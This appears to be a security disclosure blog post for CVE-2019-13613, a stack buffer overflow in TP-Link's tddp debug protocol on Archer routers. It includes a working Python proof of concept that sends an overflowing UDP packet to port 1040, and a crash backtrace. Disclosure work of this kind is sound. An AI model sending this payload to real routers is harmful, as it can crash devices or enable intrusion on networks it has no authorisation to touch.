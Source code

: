 ```yaml
---
layout: post
title: "[CVE-2019-13613] tddp CMD_FTEST_CONFIG Stack-based Buffer Overflow"
date: 2019-07-15
categories:
    - blog
tags:
    - tp-link
    - buffer overflow
    - stack overflow
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_FTEST_CONFIG in the TP-Link Device Debug protocol in TP-Link Wireless Router Archer Router version 1.0.0 Build 20180502 rel.45702 (EU) and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 259 + "BBBBCCCC"

port_send = 1040

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;junk" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff7277a8 in strnlen () from /lib/libc.so.0
#1  0xff722050 in _vfprintf_internal () from /lib/libc.so.0
#2  0xff71f3c8 in vsnprintf () from /lib/libc.so.0
#3  0x000092cc in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```

---
References:
1. https://mjg59.dreamwidth.org/51672.html?thread=1916120
